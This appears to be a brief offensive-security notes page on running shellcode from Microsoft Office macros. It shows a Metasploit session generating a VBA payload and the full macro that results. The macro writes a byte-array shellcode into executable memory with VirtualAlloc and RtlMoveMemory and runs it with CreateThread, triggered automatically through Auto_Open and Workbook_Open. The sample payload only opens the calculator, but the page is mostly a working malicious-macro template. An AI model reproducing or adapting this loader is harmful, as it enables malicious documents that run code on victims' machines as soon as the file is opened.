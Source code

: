 <!-- TITLE: Officemacros -->
<!-- SUBTITLE: A quick summary of Officemacros -->

From - http://www.scriptjunkie.us/2012/01/direct-shellcode-execution-in-ms-office-macros/
Another Example: http://www.didierstevens.com/files/software/shellcode2vbscript_v0_1.zip


msf > use payload/windows/exec
msf payload(exec) > set CMD calc
CMD => calc
msf payload(exec) > set EXITFUNC thread
EXITFUNC => thread
msf payload(exec) > generate -t vba


```text
#If Vba7 Then
Private Declare PtrSafe Function CreateThread Lib "kernel32" (ByVal Zopqv As Long, ByVal Xhxi As Long, ByVal Mqnynfb As LongPtr, Tfe As Long, ByVal Zukax As Long, Rlere As Long) As LongPtr
Private Declare PtrSafe Function VirtualAlloc Lib "kernel32" (ByVal Xwl As Long, ByVal Sstjltuas As Long, ByVal Bnyltjw As Long, ByVal Rso As Long) As LongPtr
Private Declare PtrSafe Function RtlMoveMemory Lib "kernel32" (ByVal Dkhnszol As LongPtr, ByRef Wwgtgy As Any, ByVal Hrkmuos As Long) As LongPtr
#Else
Private Declare Function CreateThread Lib "kernel32" (ByVal Zopqv As Long, ByVal Xhxi As Long, ByVal Mqnynfb As Long, Tfe As Long, ByVal Zukax As Long, Rlere As Long) As Long
Private Declare Function VirtualAlloc Lib "kernel32" (ByVal Xwl As Long, ByVal Sstjltuas As Long, ByVal Bnyltjw As Long, ByVal Rso As Long) As Long
Private Declare Function RtlMoveMemory Lib "kernel32" (ByVal Dkhnszol As Long, ByRef Wwgtgy As Any, ByVal Hrkmuos As Long) As Long
#EndIf

Sub Auto_Open()
        Dim Wyzayxya As Long, Hyeyhafxp As Variant, Lezhtplzi As Long, Zolde As Long
#If Vba7 Then
        Dim  Xlbufvetp As LongPtr
#Else
        Dim  Xlbufvetp As Long
#EndIf
        Hyeyhafxp = Array(232,137,0,0,0,96,137,229,49,210,100,139,82,48,139,82,12,139,82,20, _
139,114,40,15,183,74,38,49,255,49,192,172,60,97,124,2,44,32,193,207, _
13,1,199,226,240,82,87,139,82,16,139,66,60,1,208,139,64,120,133,192, _
116,74,1,208,80,139,72,24,139,88,32,1,211,227,60,73,139,52,139,1, _
214,49,255,49,192,172,193,207,13,1,199,56,224,117,244,3,125,248,59,125, _
36,117,226,88,139,88,36,1,211,102,139,12,75,139,88,28,1,211,139,4, _
139,1,208,137,68,36,36,91,91,97,89,90,81,255,224,88,95,90,139,18, _
235,134,93,106,1,141,133,185,0,0,0,80,104,49,139,111,135,255,213,187, _
224,29,42,10,104,166,149,189,157,255,213,60,6,124,10,128,251,224,117,5, _
187,71,19,114,111,106,0,83,255,213,99,97,108,99,0)
        Xlbufvetp = VirtualAlloc(0, UBound(Hyeyhafxp), &H1000, &H40)
        For Zolde = LBound(Hyeyhafxp) To UBound(Hyeyhafxp)
                Wyzayxya = Hyeyhafxp(Zolde)
                Lezhtplzi = RtlMoveMemory(Xlbufvetp + Zolde, Wyzayxya, 1)
        Next Zolde
        Lezhtplzi = CreateThread(0, 0, Xlbufvetp, 0, 0, 0)
End Sub
Sub AutoOpen()
        Auto_Open
End Sub
Sub Workbook_Open()
        Auto_Open
End Sub

```
